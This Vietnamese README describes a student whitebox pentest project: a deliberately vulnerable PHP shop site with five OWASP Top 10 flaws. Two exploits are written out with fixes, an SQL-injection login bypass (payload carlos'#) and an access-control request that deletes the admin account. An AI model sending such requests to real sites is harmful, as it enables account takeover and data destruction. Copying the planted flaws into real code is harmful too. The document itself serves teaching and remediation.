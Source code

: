# Pentest Website - OWASP Top 10  

## 1. Giới thiệu  

### Mô tả  
Đây là project về Pentest cơ bản, tập trung vào việc xây dựng một website có chứa lỗ hổng bảo mật và tiến hành khai thác, sau đó đưa ra giải pháp khắc phục.  

### Mục tiêu  
- Xây dựng website có chứa 5 lỗ hổng thuộc **OWASP Top 10 (2021)**.  
- Khai thác và kiểm thử các lỗ hổng.  
- Đề xuất giải pháp khắc phục.  
- Triển khai website trên một máy chủ thực tế (Linux, Ubuntu, Windows).  

### Cách tiếp cận  
Phương pháp kiểm thử bảo mật được sử dụng trong project này là **Whitebox Pentesting**, nghĩa là:  
- Có quyền truy cập mã nguồn và hệ thống.  
- Kiểm thử từ góc nhìn của developer.  
- Chủ động tạo và khai thác lỗ hổng trong mã nguồn.  

---

## 2. Các chức năng chính  
Website được xây dựng theo mô hình **MVC (Model-View-Controller)** và có các chức năng chính như:  
- ✅ Đăng nhập  
- ✅ Định danh, xác thực người dùng  
- ✅ Phân quyền người dùng  
- ✅ Quản lý bài viết, bình luận, hệ thống giỏ hàng và tiền tệ  
- ✅ Hỗ trợ upload file  
- ✅ Triển khai trên máy chủ  

# Giao diện Website

### 🔹 Giao diện chính

| Login | Register | Shop |
|---|---|---|
| ![Login](screenshots/login.png) | ![Register](screenshots/register.png) | ![Shop](screenshots/shop.png) |

| Cart | Checkout | Profile |
|---|---|---|
| ![Cart](screenshots/cart.png) | ![Checkout](screenshots/checkout.png) | ![Profile](screenshots/profile.png) |

---

<details>
  <summary>📸 Xem thêm ảnh giao diện phụ</summary>

  | Comment |  Blog |
  |---|---|
  | ![Comment](screenshots/comment.png) | ![Blog](screenshots/blog.png) |

</details>

---

## 3. Thống kê lỗ hổng OWASP Top 10 (2021)

| STT | Lỗ hổng | Mô tả | Vị trí | Mức độ |
|---|---|---|---|---|
| **1** | **A03:2021 - Injection (SQLi)** | SQL Injection trong truy vấn đăng nhập. | `/login.php` | 🔴 Cao |
| **2** | **A01:2021 - Broken Access Control** | Xóa user không xác thực quyền admin. | `/profile/updateEmail` | 🔴 Cao |
| **3** | **A08:2021 - Software and Data Integrity Failures (RCE)** | Upload file `.php` gây RCE. | `/profile/uploadAvatar` | 🔴 Cao |
| **4** | **A03:2021 - Injection (Stored XSS)** | Stored XSS trong bình luận blog do không lọc input. | `/blog_detail.php` | 🟠 Trung bình |
| **5** | **A05:2021 - Security Misconfiguration** | Truy cập file backup `git_old`, lộ thông tin. | `/backup/git_old` | 🟠 Trung bình |


---

## 4. Khai thác lỗ hổng  
<details>
  <summary>🛑<h3>A03:2021 - Injection (SQLi) - Bypass Đăng Nhập</h3></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép bypass xác thực password, truy cập tài khoản nếu biết username hợp lệ.  
- **Hệ lụy**:  
  - Tấn công viên có thể đăng nhập vào tài khoản bất kỳ mà không cần mật khẩu đúng.  
  - Có thể leo thang đặc quyền nếu truy cập vào tài khoản admin.  
  - Tiềm năng khai thác sâu hơn nếu kết hợp với các kỹ thuật SQLi khác (ví dụ: UNION).  

---

### 📌 Phát Hiện Chung
- Truy vấn SQL tại **`/login.php`** không lọc đầu vào của biến `$username`.  
- Cho phép thực hiện **SQL Injection** bằng cách chèn ký tự `#` để comment bỏ điều kiện password.  
- Payload `carlos'#` (với `carlos` là username thật) bỏ qua kiểm tra password, cho phép login mà không cần mật khẩu đúng.  
- Payload `' OR 1=1 --` ` -- ` không hoạt động do xử lý lỗi trong `Database.php`.  

---

### 🛠 PoC - Bằng Chứng Khai Thác
#### 📌 1. Payload Tấn Công:
--------------------------------
```
Username: carlos'#
Password: (bất kỳ)
```
#### 🖥 2. Request Gửi Đến Server:
--------------------------------
```
POST /web_pen_v1/login/process HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

username=carlos'#&password=randompassword
```
#### 🛠 3. Truy Vấn SQL Bị Thao Túng:
--------------------------------
```
SELECT * FROM users WHERE username = 'carlos'#' AND password = 'randompassword';
```

#### ✅ 4. Response Thành Công:
--------------------------------
HTTP/1.1 302 Found
Location: /home.php

#### 🚨 5. Ảnh Chụp Màn Hình:
--------------------------------
| PoC SQL Injection | Burp Suite PoC |
|---|---|
| ![SQL PoC](screenshots/sqlt1.png) | ![Burp Suite PoC](screenshots/sqlit2.png) |

###  🔧 Biện Pháp Khắc Phục Được Đề Xuất
Sử dụng Prepared Statement (PDO / MySQLi) để bind tham số:
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->execute([$username, $password]);
$user = $stmt->fetch();
```
- Không sử dụng truy vấn SQL với chuỗi nối trực tiếp từ input người dùng.
- Bật chế độ báo lỗi và log lỗi thay vì hiển thị lỗi SQL ra ngoài.
- Bổ sung hash password bằng password_hash() trong Register.php và verify bằng password_verify() trong Login.php.
</details> 

<details>
  <summary><h3>🛑 A01:2021 - Broken Access Control - Xóa Bất Kỳ User</h3></summary>

### 🔥 Tầm Quan Trọng Của Phát Hiện Chính
- **Mức độ**: 🔴 Cao  
- **Ảnh hưởng**: Cho phép người dùng thường xóa bất kỳ tài khoản nào, kể cả admin.  
- **Hệ lụy**:  
  - Tấn công viên có thể xóa tài khoản quan trọng, gây mất dữ liệu.  
  - Nếu admin bị xóa, hệ thống có thể mất quyền quản lý.  
  - Không có kiểm tra quyền, bất kỳ user nào cũng có thể khai thác.  

---

### 📌 Phát Hiện Chung
- Trang **Profile** có chức năng cập nhật email (`updateEmail()`), nhưng **hàm xóa user (`deleteUser()`) không có kiểm tra quyền**.  
- Kẻ tấn công có thể **thay đổi request** từ `updateEmail` thành `deleteUser` để xóa bất kỳ tài khoản nào, kể cả admin.  

---

### 🛠 PoC - Bằng Chứng Khai Thác  

#### 🚨 **Khai thác thủ công** (Burp Suite)

#### 📌 1. Đăng nhập vào hệ thống với một tài khoản bình thường.  
#### 📌 2. Chặn request bằng Intercept -> Gửi đến Repeater.  
#### 📌 3. Sửa request `/profile/updateEmail` -> /profile/deleteUser + used_id'random'.  

**Yêu cầu gốc (Request hợp lệ - cập nhật email):**
```http
POST /profile/updateEmail HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

email=hacker@evil.com
```
#### 📌 4. Chỉnh sửa request:
Đổi URL /profile/updateEmail thành /profile/deleteUser.
Thêm tham số user_id với giá trị ID của nạn nhân (ví dụ: 1 là admin).
Yêu cầu đã chỉnh sửa (Request tấn công - xóa user ID 1):
```
POST /profile/deleteUser HTTP/1.1
Host: target-site.com
Content-Type: application/x-www-form-urlencoded

user_id=1
```
#### ✅ 5. Gửi request.
Nếu lỗ hổng tồn tại, tài khoản có id=1 sẽ bị xóa mà không cần quyền admin.
Nếu admin bị xóa, hệ thống có thể bị vô hiệu hóa hoặc rơi vào trạng thái không thể quản lý.
📸 Ảnh Chụp Màn Hình (PoC Visuals)
Trước khi tấn công	Sau khi tấn công
🔧 Biện Pháp Khắc Phục Đề Xuất
Kiểm tra quyền admin trước khi xóa user:
```
if (!isset($_SESSION['role']) || $_SESSION['role'] !== 'admin') {
    $_SESSION['error'] = "Unauthorized access!";
    header("Location: " . URLROOT . "/profile");
    exit();
}
```
- Sử dụng CSRF token để tránh giả mạo request.
- Ghi log hoạt động quan trọng để theo dõi thao tác quản trị.
</details> 

